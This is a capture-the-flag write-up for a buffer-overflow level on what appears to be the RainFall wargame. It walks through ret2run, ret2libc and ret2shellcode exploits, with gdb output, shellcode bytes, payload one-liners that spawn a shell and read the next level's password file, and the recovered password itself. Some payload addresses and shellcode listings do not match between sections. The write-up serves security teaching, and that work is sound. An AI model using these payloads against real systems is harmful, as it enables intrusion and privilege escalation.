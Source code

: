 # Level 1

## Answer
Our C source code generates the same assembly code as the original binary. Compile it as follows:
```
gcc -fno-stack-protector -static source.c
```

Let's take a look at the source code:
```c
#include <stdio.h>
#include <stdlib.h>

void run(void)
{
    fwrite("Good... Wait what?\n", 1, 19, stdout);
    system("/bin/sh");
}

int main(void)
{
    char buffer[64];
    gets(buffer);
}
```

Let's focus on the `main` function. It reads input using the `gets` function, which is known to be unsafe due to its potential for causing buffer overflows, as it lacks a mechanism to limit the number of bytes read. This will allow us to overflow the buffer and overwrite the return address of the `main` function.

Let's analyze the stack layout of our program:
```bash
(gdb) b *main+21 # Breaking before leave
Breakpoint 1 at 0x8048495

(gdb) r # Run the program
Starting program: /home/user/level1/level1

Breakpoint 1, 0x08048495 in main ()

(gdb) info registers # Check esp and ebp addresses
[...]
esp            0xbffff6e0       0xbffff6e0
ebp            0xbffff738       0xbffff738
[...]
```
> You will often see me breaking before the `leave` instruction, this is because the `leave` instruction is equivalent to `mov %ebp, %esp` followed by `pop %ebp`. Futhermore the stack will be at the correct size at this point, which is not always the case before the `leave` instruction. Essentially I will always try to break before the `leave` instruction of the function I am trying to overflow, it may not always be the `main` function.

By calculating the difference between `esp` and `ebp` we can see that the stack is allocated 88 bytes:
```
0xbffff738 - 0xbffff6e0 = 58 (88 in decimal)
```	

Furthermore, we can see that our buffer is located at `0x10(%esp),%eax`. Since there is 88 bytes for the stack, our buffer will therefore requiere 72 bytes (88 - 16) before reaching `ebp`.

Since our goal is to overflow the stack until we reach the return address of the main function, we need to add another 4 bytes to go from `ebp` to `ebp + 4` (the return address). So a total of 76 bytes (72 + 4).
> If you're struggling, you can just use a [Buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/), to find the offset of the return address. However it is recommended to understand how it works.

Anything written beyond those 76 bytes will be treated as an address (only the 4 next bytes) and jumped to by the `ret` instruction of the `main` function.

There's different ways to solve this challenge, we'll see three of them. First the intended way with a ret to the run function, then the ret2libc way and finally the ret2shellcode way.
> When we refer to padding, we mean the bytes we need to write before reaching the return address.

### Ret2run
So, we need to find the address of the `run` function, which spawns a shell, to jump to it:
```
(gdb) info function run
All functions matching regular expression "run":

Non-debugging symbols:
0x08048444  run
```

Let's craft our payload:
```bash
padding + address of run

"\x90"*76 + "\x08\x04\x84\x44"
```

Let's run it:
```bash
level1@RainFall:~$ (python -c 'print("0"*76 + "\x08\x04\x84\x44"[::-1])' && echo 'cat /home/user/level2/.pass') | ./level1
Good... Wait what?
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

Perfect, let's move to the other solution.

### Ret2libc
Obviously, for this level, a ret2libc isn't necessary as we can just jump to the `run` function. However, it's a good exercise to understand how it works.

#### Explanation
Ret2Libc (Return-to-Libc) is an exploit technique that redirects the program flow to execute existing library functions.

A typical Ret2Libc exploit is constructed as follows:
```
padding + address of system + address of exit + address of "/bin/sh"

The address of exit is actually optional, but not providing it will cause the program to crash after executing the system function.
```

#### Exploit
We, therefore, need the addresses of the `system`, `exit` functions and the string `/bin/sh` in memory. These are found using GDB:

```bash
# System
(gdb) info function system
0x08048360  system
0x08048360  system@plt

# Exit
(gdb) info function exit
0xb7e5ebe0  exit
0xb7e5ec10  on_exit

# /bin/sh
(gdb) info proc mappings
[...]
0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
[...]
(gdb) find 0xb7e2c000, 0xb7fcf000, "/bin/sh"
0xb7f8cc58
1 pattern found.
```

Alright, let's craft our payload:
```
reminder: padding + address of system + address of exit + address of "/bin/sh"

"\x90"*76 + "\x08\x04\x83\x60" + "\xb7\xe5\xeb\xe0" + "\xb7\xf8\xcc\x58"
```

Let's run it:
```bash
level1@RainFall:~$ (python -c 'print("0"*76 + "\x08\x04\x83\x60"[::-1] + "\xb7\xe5\xeb\xe0"[::-1] + "\xb7\xf8\xcc\x58"[:
:-1])' && echo 'cat /home/user/level2/.pass') | ./level1
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

Perfect, let's move to the other solution.

### Ret2shellcode
Yet again, for this level, a ret2shellcode isn't necessary as we can just jump to the `run` function. However, it's a good exercise to understand how it works.

#### Explanation
We opt for a shellcode designed to spawn a shell. This shellcode, taken from the [Exploit Database](https://www.exploit-db.com/exploits/41757), is compact and effective for our purpose:

`\x31\xc9\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80`

Our goal is to write this shellcode in memory or in an environment variable and jump to it, it will then be executed, which will spawn a shell. Essentially the equivalent of `system("/bin/sh")`.

#### Exploit
We can either feed our shellcode to the program, or we can put the shellcode in an environment variable. For convenience, we'll use the environment variable:
```bash
bonus0@RainFall:~$ export EXPLOIT=`python -c "print '\x90' * 200 + '\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'"`
```

We'll write and run a C program to find the address of the environment variable:
```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    printf("%p\n", getenv("EXPLOIT"));
    return 0;
}
```

```bash
bonus0@RainFall:/tmp$ ./a.out
0xbffff848
```
> That address will be different for you, you'll have to change it in the payload.

Alright, let's craft our payload:
```
padding + address of shellcode

"\x90"*76 + "\x08\x04\xa0\x08"[::-1]
```

Let's run it:
```bash
level1@RainFall:~$ (python -c 'print("0"*76 + "\xbf\xff\xf8\x48"[::-1])' && echo 'cat /home/user/level2/.pass') | ./level1
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

We are now level2! Let's move on to the next level.